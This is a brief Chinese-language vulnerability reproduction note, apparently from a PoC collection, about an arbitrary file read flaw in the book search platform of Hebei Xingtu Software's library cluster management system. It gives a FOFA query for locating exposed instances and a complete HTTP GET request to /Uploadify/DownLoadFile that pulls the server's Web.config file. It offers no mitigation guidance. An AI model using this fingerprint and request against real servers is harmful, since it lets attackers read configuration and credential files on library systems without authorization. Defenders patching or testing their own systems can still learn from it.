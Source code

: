 河北兴图软件科技有限公司基于互联网+图书馆全新的理念自主研发了一系列网页版图书馆集群管理系统，正式推出基础版、标准版、增强版和专业版等版本，适合各类型图书馆需求。图书检索平台存在任意文件读取漏洞

# 二、影响版本
+ 图书检索平台

# 三、资产测绘
+ fofa`body="Images/public/yes.png"`
+ 特征

![](images/1724579424545-e9f8ab08-0234-45a8-b5a0-b39b77b1088d.png)

# 四、漏洞复现
```java
GET /Uploadify/DownLoadFile?url=/Web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```

![](images/1724583455549-f78e8e00-1277-4fad-961a-cb7f7290adc5.png)

